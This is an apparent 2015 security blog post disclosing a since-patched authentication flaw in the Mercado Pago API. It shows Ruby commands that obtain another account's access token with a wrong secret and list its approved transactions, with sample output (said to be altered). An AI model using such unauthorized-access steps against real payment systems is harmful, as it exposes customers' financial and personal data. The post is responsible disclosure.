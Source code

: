 ```yaml
---
layout: post
title: "Mercado Pago Security Hole"
date: 2015-07-14 23:29:00
categories: ["security"]
author: etagwerker
---
```


On April 17th we discovered a security vulnerability in the [Mercado Pago API](https://www.mercadopago.com.ar/developers/en/api-docs/). Before disclosing this information, we contacted [Mercado Libre](http://www.mercadolibre.com/) and sent them a detailed report of the security hole and how to reproduce it.

The vulnerability allowed anyone to get an access token without using the right secret for an account.

You can see how the authentication process works on Mercado Pago over here: [https://www.mercadopago.com.ar/developers/en/api-docs/basics/authentication/](https://www.mercadopago.com.ar/developers/en/api-docs/basics/authentication/)

After 7 hours, Mercado Pago fixed the vulnerability in their production environment.

## How we reproduced the bug

This example uses Ruby 2.1.2 and the [mercadopago](https://rubygems.org/gems/mercadopago) gem.

    2.1.2 :001 > token = MercadoPago::Authentication.access_token("8872", "lalalala")

The first parameter is the client id (an account in Mercado Pago) and the second parameter is the secret (only the account holder should know this)

For client id we used `8872` which doesn't belong to us and for secret we used `lalalala` to show that it wasn't really *the right secret.*

With that information, we were able to acquire the token. With it you can access a lot of information associated with the payments in the account.

For example:

```ruby
2.1.2 :002 > response = MercadoPago::Collection.search(token["access_token"], status: :approved)
```

With this query, you could see all the approved transactions for an account **that didn't belong to you**.

For example:

```ruby
=> {"paging"=>{"total"=>98, "limit"=>30, "offset"=>0},
    "results"=>[
      {"collection"=>{"id"=>753859418, "site_id"=>"MLA",
       "date_created"=>"2014-03-13T16:58:20.000-04:00",
       "date_approved"=>"2014-03-13T17:00:38.000-04:00",
       "last_modified"=>"2014-03-13T17:00:38.000-04:00",
       "money_release_date"=>"2014-03-15T17:00:38.000-04:00",
       "operation_type"=>"regular_payment",
       "collector_id"=>16605960, "sponsor_id"=>nil,
       "payer"=>{
         "nickname"=>"XOMBULABSX",
         "first_name"=>"JON",
         "last_name"=>"SNOW",
         "phone"=>{"area_code"=>"291", "number"=>"123412", "extension"=>nil},
         "email"=>"security@ombulabs.com",
         "id"=>83110350,
         "identification"=>{"type"=>nil, "number"=>nil}},
         "external_reference"=>"1448",
         "merchant_order_id"=>11567450,
         "reason"=>"Premium package", "currency_id"=>"ARS",
         "transaction_amount"=>81, "total_paid_amount"=>81,
         "shipping_cost"=>0,
         "account_money_amount"=>0,
         "mercadopago_fee"=>4.85,
         "net_received_amount"=>76.15,
         "marketplace_fee"=>nil,
         "coupon_id"=>nil,
         "coupon_amount"=>nil,
         "coupon_fee"=>nil,
         "finance_fee"=>0,
         "status"=>"approved",
         "status_detail"=>"accredited",
         "status_code"=>"00",
         "released"=>"yes",
         "payment_type"=>"credit_card",
         "installments"=>1,
         "installment_amount"=>nil,
         "deferred_period"=>nil,
         "cardholder"=>{"name"=>"JON SNOW", "identification"=>{"type"=>"DNI", "number"=>"26000000"}},
         "statement_descriptor"=>"WWW.MERCADOPAGO.COM",
         "transaction_order_id"=>nil, "marketplace"=>"NONE", "tags"=>[],
         "notification_url"=>nil}},
      {"collection"=>
        {"id"=>756415807,
        "site_id"=>"MLA",
        "date_created"=>"2014-03-20T15:42:35.000-04:00",
        "date_approved"=>"2014-03-20T15:42:35.000-04:00",
        "last_modified"=>"2014-03-20T15:42:35.000-04:00",
        "money_release_date"=>"2014-03-22T15:42:35.000-04:00",
        "operation_type"=>"regular_payment",
        "collector_id"=>16605960,
        "sponsor_id"=>nil,
        "payer"=>{
          "nickname"=>"YOURNICKNAME",
          "first_name"=>"Matias",
          "last_name"=>"OMBU",
          "phone"=>{"area_code"=>"291", "number"=>"4000000", "extension"=>nil},
          "email"=>"hola@ombulabs.com",
          "id"=>18878708,
          "identification"=>{"type"=>nil, "number"=>nil}},
        "external_reference"=>"1457",
        "merchant_order_id"=>13031193,
        "reason"=>"Premium package",
        "currency_id"=>"ARS",
        "transaction_amount"=>81,
        "total_paid_amount"=>81,
        "shipping_cost"=>0,
        "account_money_amount"=>0,
        "mercadopago_fee"=>4.85,
        "net_received_amount"=>76.15,
        "marketplace_fee"=>nil,
        "coupon_id"=>nil,
        "coupon_amount"=>nil,
        "coupon_fee"=>nil, "finance_fee"=>0,
        "status"=>"approved",
        "status_detail"=>"accredited",
        "status_code"=>"00",
        "released"=>"yes",
        "payment_type"=>"credit_card",
        "installments"=>1,
        "installment_amount"=>nil,
        "deferred_period"=>nil,
        "cardholder"=>
          {"name"=>nil,
           "identification"=>{"type"=>nil, "number"=>nil}},
        "statement_descriptor"=>"WWW.MERCADOPAGO.COM",
        "transaction_order_id"=>nil,
        "marketplace"=>"NONE",
        "tags"=>[],
        "notification_url"=>nil}},
        ...
      }
```

*The sensitive information in this code snippet has been intentionally changed*

So, during the time that this vulnerability was live (at least 7 hours) an attacker could have used it to:

* Find information about all the payments that your account had received since you started using the service

* Find information about your clients, their DNI, name, phone number

All the attacker needed to exploit this vulnerability was a Mercado Pago account ID and some basic tech knowledge.

## How we discovered this bug

At [OmbuShop](http://www.ombushop.com), our integration tests use the Mercado Pago sandbox to check that the amount that a client has to pay is correct. I know that this isn't ideal (or is it?) but it's as real as it gets for our integration tests.

One of our tests checked that you couldn't get collections information with the wrong user credentials. When the test started failing in our continuous tests, we started digging around and found this security hole.

## What worries me

It's hard to understand how such a big payment processor never published information about this security hole. I would expect them to know if some information was accessed by people who didn't have access to it.

They could check their access logs and see who accessed their API using a secret that wasn't the right one. Then they could inform their customers of this problem and warn them about this situation.

Mercado Pago, a product of Mercado Libre ([$MELI](http://www.nasdaq.com/symbol/meli)) which is a publicly traded company, doesn't even have public versioning information of their API nor a continuous integration suite that would catch such an obvious vulnerability.

Maybe I am just used to the security reports published by Github about [their vulnerabilities](https://github.com/blog/1068-public-key-security-vulnerability-and-mitigation). Maybe Github is way more serious than Mercado Pago about privacy and online security.

I think that Mercado Pago needs to step up their game and be more transparent about their platform and user privacy.

A good place to start would be a better way to receive security vulnerability reports and disclosing information about their security problems.

Until today, they haven't disclosed any information about this security hole and it's very hard to find a way to report a security issue to them.
